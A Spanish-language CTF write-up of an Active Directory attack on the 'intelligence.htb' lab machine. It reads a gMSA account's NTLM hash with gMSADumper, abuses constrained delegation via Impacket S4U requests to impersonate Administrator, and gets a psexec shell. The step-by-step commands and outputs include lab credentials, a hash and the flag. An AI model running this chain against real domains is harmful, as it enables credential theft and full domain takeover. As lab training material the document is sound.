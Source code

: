 # GMSA abusing and s4u delegation attack [ReadGMSAPassword] + [AllowedToDelegate]

## Descripción del ataque

Este ataque aprovecha dos permisos clave para comprometer un entorno de Active Directory mediante una **cuenta de servicio administrada de grupo (gMSA)**:

1. **ReadGMSAPassword**: Este permiso permite leer la contraseña Kerberos asociada a la cuenta gMSA. Utilizando herramientas como [`gMSADumper.py`](https://github.com/micahvandeusen/gMSADumper), se extrae el hash NTLM de la cuenta de servicio, lo que proporciona acceso inicial para realizar operaciones en su contexto.

2. **AllowedToDelegate**: Este permiso habilita la delegación de credenciales, lo que permite a la cuenta gMSA actuar en nombre de otros usuarios. Combinando los ataques **S4U2Self** y **S4U2Proxy**, es posible generar un **Ticket de Servicio (ST)** para un SPN arbitrario (por ejemplo, `cifs/dc.intelligence.htb`) e impersonar a un usuario privilegiado como `Administrator`.

El resultado final es el acceso a recursos protegidos o sistemas críticos, explotando la configuración indebida de permisos en la cuenta gMSA.

## Objetivo y ejemplo de uso en un CTF

- El objetivo es obtener un **Ticket de Servicio (ST)** para un SPN arbitrario (como `cifs/dc.intelligence.htb`) **impersonando a un usuario privilegiado**, aprovechando que la cuenta `svc_int$` tiene permiso para delegar.

---

![Diagrama del ataque](./GMSA-abuse.png)

---

## Herramientas utilizadas

- [`gMSADumper`](https://github.com/micahvandeusen/gMSADumper)
- [`Impacket`](https://github.com/fortra/impacket)
    - [`getTGT.py`](https://github.com/fortra/impacket/blob/master/examples/getTGT.py)
    - [`getST.py`](https://github.com/fortra/impacket/blob/master/examples/getST.py)
- [`ntpdate`](https://man7.org/linux/man-pages/man8/ntpdate.8.html)
- [`nxc`](https://github.com/NextCry/nxc)

---

### Pasos del ataque

1. Ejecutar `gMSADumper.py` para extraer el hash NTLM de la cuenta `svc_int$`:
     ```bash
     python3 gMSADumper.py -u 'TED.GRAVES' -p 'Mr.Teddy' -d 'intelligence.htb'
     ```
     Resultado:
     ```
     svc_int$:::b05dfb2636385604c6d36b0ca61e35cb
     ```

2. Utilizar `getTGT.py` para obtener un TGT usando el hash NTLM de `svc_int$`:
     ```bash
     getTGT.py 'INTELLIGENCE.HTB/svc_int$' -hashes :b05dfb2636385604c6d36b0ca61e35cb
     export KRB5CCNAME=/home/kali/svc_int$.ccache
     ```

3. Impersonar al usuario `Administrator` con `getST.py`:
     ```bash
     getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :b05dfb2636385604c6d36b0ca61e35cb
     ```
     Resultado:
     ```
     [*] Requesting S4U2Proxy
     [*] Saving ticket in Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

4. Exportar el nuevo ticket:
     ```bash
     export KRB5CCNAME=Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

5. Conectarse al sistema objetivo con `psexec.py`:
     ```bash
     psexec.py -k -no-pass INTELLIGENCE.HTB/Administrator@dc.intelligence.htb
     ```

     Ejemplo de salida:
     ```
     Microsoft Windows [Version 10.0.17763.1879]
     (c) 2018 Microsoft Corporation. All rights reserved.

     C:\Windows\system32> type c:\Users\Administrator\Desktop\root.txt
     1375c5a7e7b13d7d9e063dd4629cb806
     ```

---

## Referencias


### ReadGMSAPassword

- [Retrieving Cleartext gMSA Passwords from Active Directory](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)
- [DSInternals PowerShell Module](https://www.powershellgallery.com/packages/DSInternals/)
- [PSgMSAPwd](https://github.com/markgamache/gMSA/tree/master/PSgMSAPwd)
- [Active Directory Security - gMSA](https://adsecurity.org/?p=36)
- [Active Directory Security - Delegation Abuse](https://adsecurity.org/?p=2535)
- [Event ID 4662](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4662)
- [The Hacker Recipes - ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

### AllowedToDelegate

- [S4U - Rubeus](https://github.com/GhostPack/Rubeus#s4u)
- [Trust: Years to Earn, Seconds to Break](https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/)
- [S4U2Pwnage](https://blog.harmj0y.net/activedirectory/s4u2pwnage/)
- [Gentil Kiwi - S4U Tweet](https://twitter.com/gentilkiwi/status/806643377278173185)
- [Kerberos Delegation, SPNs, and More](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more)
- [From Kekeo to Rubeus](https://blog.harmj0y.net/redteaming/from-kekeo-to-rubeus/)
- [Another Word on Delegation](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
- [The Hacker Recipes - Delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)
